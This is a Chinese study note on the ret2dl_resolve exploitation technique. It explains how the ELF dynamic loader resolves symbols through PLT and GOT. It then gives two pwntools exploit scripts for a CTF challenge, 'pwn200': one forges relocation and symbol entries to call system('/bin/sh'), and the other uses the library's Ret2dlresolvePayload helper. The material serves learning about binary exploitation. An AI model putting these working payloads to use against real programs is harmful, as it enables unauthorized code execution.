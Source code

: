 ## 原理详解
动态装载器负责将二进制文件及依赖库加载到内存，该过程包含了对导入符号（函数和全局变量）的解析 
_dl_runtime_resolve(link_map_obj, reloc_index)作用是用于动态链接的函数，用于解析和解决运行时的符号引用。 
该函数有两个参数，第一个参数link_map_obj用于获取导入函数所需要的信息，link_map_obj通过访问.dynamic节，分别取出动态链接字符表.dynstr，动态链接符号表.dynsym，重定位.ret.plt的地址，参数reloc_index则标识了解析哪一个导入函数(reloc_index + rel_plt_addr就是所指向的Elf_Rel的指针)(rel_plt_addr是重定位表.ret.plt的地址) 
![924f250bc91107844f9d115d4d2e7bf2.png](../_resources/924f250bc91107844f9d115d4d2e7bf2.png)
Elf_Rel->r_info的高24位为.dynstr的下标，利用dynstr_addr + ((Elf_Rel->r_info) >> 8)求出.dynsym表所在的Elf_sym指针，记作sym 

Sym -> st_name 作为 .dynstr 的下标，即利用dynstr_addr + (sym -> st_name), 求出当前函数在.dynstr所在的指针，记作str

在动态链接库中通过str查找到这个函数的地址，并且把找到的地址赋值给rel->r_offset所指向的地址（即.got.plt表的位置） 

最后调用这个函数 
![b697e49274d7ef48c65c034ba8e2c85d.png](../_resources/b697e49274d7ef48c65c034ba8e2c85d.png)
![f2ca192c604448e182352dce0ab545c6.png](../_resources/f2ca192c604448e182352dce0ab545c6.png)
![a0e429d90678adb52ef23508a5b20307.png](../_resources/a0e429d90678adb52ef23508a5b20307.png)
![bf84b5b9b9961a5ad8d04fbfc7152481.png](../_resources/bf84b5b9b9961a5ad8d04fbfc7152481.png)
![e17e2628b384bed21d968aa5c450f187.png](../_resources/e17e2628b384bed21d968aa5c450f187.png)

## 看pwn200的题解

```
from pwn import *

context.log_level = 'debug'

elf = ELF('./a.out')
io = process('./a.out')
io.recv()

pppr_addr      = 0x080492d9     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x080492db     # pop ebp ; ret
leave_ret_addr = 0x08049105     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628

payload_1  = b"A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)
io.send(payload_1)


reloc_index = base_addr + 28 - rel_plt //这个是dl_runtime_resolve函数的第二个参数，对应着fake_reloc存放的地址
fake_sym_addr = base_addr + 36 
align = 0x10 # because the size of Elf.rel is 0x10 
fake_sym_addr = fake_sym_addr + align //这个是r_sym需要用到的值，指代着fake_sym的地址
r_sym = (fake_sym_addr - dynsym) >> 4
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr //这个是str所用到的值，指代着system
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
payload_7 = b"AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += b"AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += b"AAAA"
payload_7 += b"AAAA"
payload_7 += fake_reloc
payload_7 += b"A" * align
payload_7 += fake_sym
payload_7 += b"system\x00"
payload_7 += b"A" * (80 - len(payload_7))
payload_7 += b"/bin/sh\x00"
payload_7 += b"A" * (100 - len(payload_7))
io.sendline(payload_7)
io.interactive()
```

## 自己的理解
.rel.plt表实际上是plt表的重定位表
比如现在要使用bar函数，来看bar@plt的实现
![fc8fdd8696c2a30c386f99f5e543b6c6.png](../_resources/fc8fdd8696c2a30c386f99f5e543b6c6.png)
第一行指令 jmp * (bar@got)
bar@got表示got中保存bar这个函数相应的项，如果该项已经被初始化，那么就会直接跳转到该函数；如果，没被初始化，那么bar@got这个表项的内容就是push n这个指令所在的地址，即从第一句跳转到第二句。
第二行指令是将n压入栈中，这个n是bar这个符号引用在重定位表.rel.plt中的下标，接着将moduleID压入栈中（moduleID实际上就是pwn教材里的link_map_obj）,然后跳转到dl_runtime_resolve当中，来完成符号解析和重定位工作，完成之后会将bar真正的地址填入到bar@GOT中
实际上ELF将GOT表拆分成了两个表，叫做.got和.got.plt，其中.got用来保存全局变量引用的地址，.got.plt用来保存函数引用的地址，也就是说对于外部函数的引用全部被分离出来放到了".got.plt"中
.got.plt前三项是有特殊意义的，分别含义如下：
![45b381c2f9f4b619b765c70ccc57f5bf.png](../_resources/45b381c2f9f4b619b765c70ccc57f5bf.png)
基本的PLT结构如图：
![d60955fcc467f1392def9d758106f7f8.png](../_resources/d60955fcc467f1392def9d758106f7f8.png)
结构代码如下
![5192b7cd6078d085565f6b767a67402a.png](../_resources/5192b7cd6078d085565f6b767a67402a.png)
其中GOT + 4就是model ID(link_map_obj)，GOT+8就是dl_runtime_resolve()
PLT在ELF文件中以独立的段存放，段名通常叫做.plt，因为它本身是一些地址无关的代码，所以可以跟代码段等一起合并成同一个可读可执行的Segment被装载入内存
# 偷懒的方法
可以使用pwntools中自带的模块来构造dlresolve,以下是pwn200使用模块的题解
```
from pwn import *

context.binary = elf = ELF("./pwn200")
context.arch='i386'
context.log_level ='debug'

rop = ROP(context.binary)

dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = process("./pwn200")
io.recvuntil("\n")
payload = flat({112:raw_rop,256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```